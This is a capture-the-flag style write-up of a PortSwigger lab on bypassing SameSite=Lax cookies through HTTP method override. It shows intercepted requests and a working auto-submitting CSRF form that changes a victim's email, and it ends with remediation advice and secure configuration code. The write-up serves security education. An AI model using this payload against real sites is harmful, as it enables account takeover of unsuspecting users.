




## Challenge Overview

* **Challenge Name**: SameSite Lax bypass via method override
* **Category**: Cross-Site Request Forgery (CSRF) / Client-Side Security
* **Level**: Practitioner
* **Target Endpoint**: `POST /my-account/change-email`
* **Provided Credentials**: `wiener:peter`
* **Objective**: Bypass browser-enforced `SameSite=Lax` cookie protections by exploiting an HTTP method override vulnerability, converting the state-changing action into a top-level `GET` navigation to change the victim's email address.

---

## 1. Core Fundamentals

### 1.1. The Modern Browser Cookie Landscape: `SameSite` Attribute

In response to widespread Cross-Site Request Forgery (CSRF) vulnerabilities, major browser vendors standardized and deployed the **`SameSite`** cookie attribute.

The `SameSite` directive controls whether a cookie is transmitted along with cross-site HTTP requests, operating under three distinct modes:
* **`SameSite=Strict`:** Cookies are never transmitted in any cross-site context. Even when a user clicks a legitimate link from an external domain or email client, the cookie is withheld.
* **`SameSite=None`:** Cookies are sent in all cross-site contexts (provided the `Secure` flag is enabled). This represents legacy browser behavior.
* **`SameSite=Lax` (Default Browser Baseline):** Cookies are **withheld on cross-site subrequests** (e.g., ``, `<iframe>`, `fetch()`, `<script>`, and cross-site `<form method="POST">` submissions). However, **they are explicitly sent on Top-Level Navigations using safe HTTP methods (specifically `GET`)**.

```text
+-----------------------------------------------------------------------------------------+
|                              SameSite=Lax Browser Policy Matrix                         |
+-----------------------------------------------------------------------------------------+
| Request Type                     | HTTP Verb | Browser Transmits Lax Cookie?            |
+----------------------------------+-----------+------------------------------------------+
| Cross-site Subrequest (POST/GET) | POST / GET| ❌ BLOCKED (Cookie stripped)             |
| Cross-site Form Submission       | POST      | ❌ BLOCKED (Cookie stripped)             |
| Top-Level Navigation (<a href>)  | GET       | ✅ PERMITTED (Cookie sent)               |
| Top-Level Form Submission        | GET       | ✅ PERMITTED (Cookie sent)               |
+-----------------------------------------------------------------------------------------+
```

### 1.2. The Developer Assumption: "Lax Killed CSRF"

Because modifying sensitive account details (such as email addresses or passwords) is conventionally performed via HTTP `POST` requests, many development teams have abandoned server-side Anti-CSRF tokens under the belief that:
> *"Since modern browsers default to `SameSite=Lax`, cross-site POST form submissions will never carry the victim's session cookie. Therefore, CSRF protection is automatically enforced by the browser."*

This lab exposes the fatal flaw in relying solely on browser-level transport heuristics without application-level validation.

### 1.3. The Mechanism of HTTP Method Overriding (Method Spoofing)

Historically, standard HTML forms only supported `GET` and `POST` methods. To support RESTful API architectures requiring `PUT`, `DELETE`, or `PATCH`, web frameworks (including Symfony, Ruby on Rails, Laravel, and Express via `method-override`) introduced **HTTP Method Overriding**.

Under this mechanism, clients transmit an override directive via:
1. A custom header: `X-HTTP-Method-Override: PUT`
2. A URL query parameter or form body field: `_method=PUT`

#### The Architectural Vulnerability:
When method-override middleware is configured insecurely, it allows clients to **override a `GET` request into a `POST` request** on the backend:
```http
GET /endpoint?_method=POST  --> Server overrides internal request verb to POST!
```

This architectural discrepancy creates an exploitable divergence:
* **The Browser sees:** A top-level `GET` navigation $\rightarrow$ **Attaches the `SameSite=Lax` session cookie.**
* **The Backend Middleware sees:** An incoming `_method=POST` directive $\rightarrow$ **Treats the request as a `POST` and executes the mutation.**

### 1.4. The CSRF Preconditions Matrix

```text
+-----------------------------------------------------------------------------------------+
|                                CSRF Pre-Conditions Matrix                               |
+-----------------------------------------------------------------------------------------+
| Condition 1: Relevant Action            --> YES: POST /my-account/change-email          |
| Condition 2: Cookie-based Session       --> YES: Authenticated via "Cookie: session=..."|
| Condition 3: No Unpredictable Data      --> YES: No Anti-CSRF token required            |
| Condition 4: SameSite Bypass Primitive  --> YES: _method=POST on Top-Level GET          |
+-----------------------------------------------------------------------------------------+
| VERDICT: CRITICALLY VULNERABLE VIA SAMESITE LAX METHOD OVERRIDE SPOOFING                |
+-----------------------------------------------------------------------------------------+
```

---

## 2. Attack Architecture / Threat Model

### 2.1. Trust Boundaries & Behavioral Divergence

The vulnerability exploits a fundamental asymmetry between browser-level transport rules and backend application routing:
* **Browser Trust Boundary:** The browser enforces `SameSite=Lax` based exclusively on the outward HTTP transport verb (`GET`) and top-level navigation context.
* **Server Middleware Boundary:** The application middleware inspects query parameters before routing, overriding the request method internally to `POST` without re-verifying cross-origin origin headers (`Origin`, `Sec-Fetch-Site`).

### 2.2. Attack Flow Diagram

```text
[ Attacker Exploit Server ]
       │
       │  1. Hosts malicious HTML exploit:
       │     <form action="https://target.com/my-account/change-email" method="GET">
       │         <input type="hidden" name="email" value="tuki123@gmail.com">
       │         <input type="hidden" name="_method" value="POST">
       │     </form>
       │     <script>document.forms[0].submit();</script>
       │
       │  2. Delivers phishing link to Victim
       ▼
[ Authenticated Victim Browser ]
       │  (Victim holds Cookie: session=... configured with SameSite=Lax)
       │
       │  3. Loads attacker exploit page (/exploit)
       │  4. DOM executes document.forms[0].submit()
       │
       │  5. Browser evaluates SameSite=Lax policy:
       │     - Request method is GET? YES
       │     - Top-level navigation? YES
       │     ──► BROWSER ATTACHES LAX SESSION COOKIE!
       │
       │  6. Dispatches request:
       │     GET /my-account/change-email?email=tuki123@gmail.com&_method=POST HTTP/2
       │     Cookie: session=a0JDk52y4Wux...
       ▼
[ Target Application Server ]
       │
       │  7. Network Layer receives GET with valid session cookie
       │  8. Method-Override Middleware inspects query string: finds _method=POST
       │  9. Middleware mutates request.method to "POST" internally
       │  10. Router routes to change-email POST handler
       │  11. Application updates victim's account email in database!
       ▼
[ State Mutated: Victim's Email Changed to tuki123@gmail.com ]
```

### 2.3. Root Cause Analysis

1. **Permissive Method-Override Configuration:** The middleware blindly parses `_method=POST` from incoming `GET` requests rather than restricting overrides exclusively to `POST` payloads (`PUT`, `DELETE`, `PATCH`).
2. **Absence of Anti-CSRF Tokens:** The backend relies entirely on `SameSite=Lax` transport heuristics and enforces no cryptographic Synchronizer Tokens on state-changing controllers.

---

## 3. Vulnerability Exploitation

### Phase 1: Baseline Request & Defense Surface Analysis

We authenticate as `wiener:peter` and intercept the legitimate email-change transaction using **Burp Suite Proxy / Repeater**:



```http
POST /my-account/change-email HTTP/2
Host: 0a8b009e039fa730807f352200a700c9.web-security-academy.net
Cookie: session=a0JDk52y4WuxdTX09lY4xPwcwPOYVNj5
Content-Length: 27
Content-Type: application/x-www-form-urlencoded

email=wiener123%40gmail.com
```

#### Observations:
* The request contains **no Anti-CSRF token**.
* The application relies entirely on browser-enforced `SameSite=Lax` cookies to block cross-site POST attacks.
* If an attacker attempts a standard `<form method="POST">` from `exploit-server.net`, modern browsers will withhold `session=a0JDk...`, causing the attack to fail.

---

### Phase 2: Testing Direct `GET` Mutation Rejection

In **Burp Repeater**, we convert the request to a standard `GET` request:



```http
GET /my-account/change-email?email=wiener123%40gmail.com HTTP/2
Host: 0a8b009e039fa730807f352200a700c9.web-security-academy.net
Cookie: session=a0JDk52y4WuxdTX09lY4xPwcwPOYVNj5
```

#### Server Response:
```http
HTTP/2 405 Method Not Allowed
Allow: POST
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 20

"Method Not Allowed"
```

#### Analysis:
The server actively enforces REST verb boundaries: direct `GET` requests are rejected with `405 Method Not Allowed` and an explicit `Allow: POST` header.

---

### Phase 3: Discovering Method Override in Burp Repeater

We test whether the application's routing layer supports **HTTP Method Overriding** via query parameter spoofing. We append `&_method=POST` to the URL:



```http
GET /my-account/change-email?email=wiener321%40gmail.com&_method=POST HTTP/2
Host: 0a8b009e039fa730807f352200a700c9.web-security-academy.net
Cookie: session=a0JDk52y4WuxdTX09lY4xPwcwPOYVNj5
```

#### Server Response:
```http
HTTP/2 302 Found
Location: /my-account?id=wiener
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

#### Critical Breakthrough:
The server accepts the request and returns `HTTP/2 302 Found`! 
The presence of `_method=POST` instructed the backend middleware to rewrite the request method internally from `GET` to `POST`, successfully executing the email change to `wiener321@gmail.com`.

---

### Phase 4: Weaponizing the Exploit on Exploit Server

We navigate to PortSwigger's **Exploit Server** (`https://exploit-...exploit-server.net/exploit`) and craft the payload:



#### Exploit Server Payload Configuration:
* **File:** `/exploit`
* **Head:**
  ```http
  HTTP/1.1 200 OK
  Content-Type: text/html; charset=utf-8
  ```
* **Body:**
  ```html
  <form action="https://0a8b009e039fa730807f352200a700c9.web-security-academy.net/my-account/change-email" method="GET">
      <input type="hidden" name="email" value="tuki123@gmail.com">
      <input type="hidden" name="_method" value="POST">
  </form>
  <script>document.forms[0].submit();</script>
  ```

#### Detailed Breakdown of Exploit Mechanics:
1. **`method="GET"`:**
   * This is the core bypass mechanism. Setting `method="GET"` triggers a **Top-Level Navigation**.
   * Under standard `SameSite=Lax` browser specifications, **the browser attaches the victim's session cookie to top-level GET navigations**.
   * Had `method="POST"` been used, the browser would have stripped the cookie immediately.
2. **`action=".../my-account/change-email"`:**
   * Points to the target endpoint on the vulnerable application.
3. **The Hidden Input Elements:**
   * `<input type="hidden" name="email" value="tuki123@gmail.com">`: Supplies the attacker's email to overwrite the victim's account.
   * `<input type="hidden" name="_method" value="POST">`: Serialized into the URL query string upon submission, providing the method-override instruction to the backend.
4. **`document.forms[0].submit();`:**
   * Automatically executes the submission as soon as the DOM renders, delivering a zero-click exploit.

---

### Phase 5: Delivering Exploit to Victim & Verification

1. Click **Store** to persist the payload at `/exploit`.
2. Click **Deliver exploit to victim**.


#### Execution Flow & Lab Resolution:
1. The automated victim bot (holding an active authenticated session with `SameSite=Lax` cookies) accesses `/exploit`.
2. The bot's browser parses the HTML and executes `document.forms[0].submit()`.
3. The browser dispatches a cross-site top-level navigation:
   ```text
   GET /my-account/change-email?email=tuki123@gmail.com&_method=POST
   ```
4. Because the transport method is `GET`, the browser includes the victim's `session` cookie despite the cross-origin context.
5. The target application's method-override middleware intercepts the request, reads `_method=POST`, and mutates the internal request verb to `POST`.
6. The account controller processes the request as a valid `POST`, updating the victim's email to `tuki123@gmail.com`.
7. PortSwigger confirms the email modification on the victim account and awards the **LAB Solved** status (*Figure 5*).

---

## 4. Remediation Strategies

Remediating this vulnerability requires hardening method-override routing logic, enforcing cryptographic tokens, and configuring strict cookie policies.

```text
+-----------------------------------------------------------------------------------------+
|                              Multi-Layered CSRF Defenses                                |
+-----------------------------------------------------------------------------------------+
| 1. Method-Override Hardening: Never allow GET requests to be overridden to POST         |
| 2. Cryptographic Validation : Implement Synchronizer Token Pattern on all mutations     |
| 3. Cookie Isolation         : Enforce SameSite=Strict on sensitive session cookies       |
| 4. Step-Up Security         : Require password re-authentication on critical actions    |
+-----------------------------------------------------------------------------------------+
```

### 4.1. Restrict Method Overriding to `POST` Requests Only (Primary Fix)

Method overriding should **never** be permitted on incoming `GET` requests. It should only be used to map `POST` requests to RESTful verbs (`PUT`, `DELETE`, `PATCH`):

```javascript
// SECURE METHOD-OVERRIDE CONFIGURATION (Express.js)
const methodOverride = require('method-override');

app.use(methodOverride(function (req, res) {
    // STRICT RULE: Only allow method override IF the original request is POST!
    if (req.method === 'POST' && req.query && typeof req.query._method === 'string') {
        const allowedOverrides = ['PUT', 'DELETE', 'PATCH'];
        const method = req.query._method.toUpperCase();
        if (allowedOverrides.includes(method)) {
            return method;
        }
    }
    return req.method; // No override for GET requests!
}));
```

### 4.2. Enforce Cryptographic Anti-CSRF Tokens

Do not treat `SameSite=Lax` as a standalone replacement for Anti-CSRF tokens. Critical state-changing endpoints must implement the **Synchronizer Token Pattern**:

```html
<form action="/my-account/change-email" method="POST">
    <input type="hidden" name="csrf" value="k8F9a2B...cryptographically_secure_token..." />
    <input type="email" name="email" value="" required />
    <button type="submit">Update email</button>
</form>
```
Even if an attacker bypasses `SameSite=Lax` via a top-level GET navigation, the request will be rejected by the server due to the missing or invalid CSRF token (`403 Forbidden`).

### 4.3. Configure `SameSite=Strict` for Critical Session Cookies

For applications handling sensitive user data, configure the session cookie with `SameSite=Strict`:
```http
Set-Cookie: session=...; Secure; HttpOnly; SameSite=Strict; Path=/
```
Under `SameSite=Strict`, the browser withholds the cookie **even on top-level GET navigations**, completely neutralizing this attack vector.

### 4.4. Mandatory Re-Authentication for Sensitive Operations

Require users to provide their **current password** or complete **MFA verification** before committing sensitive profile changes. This prevents unauthorized mutations regardless of transport-level bypasses.
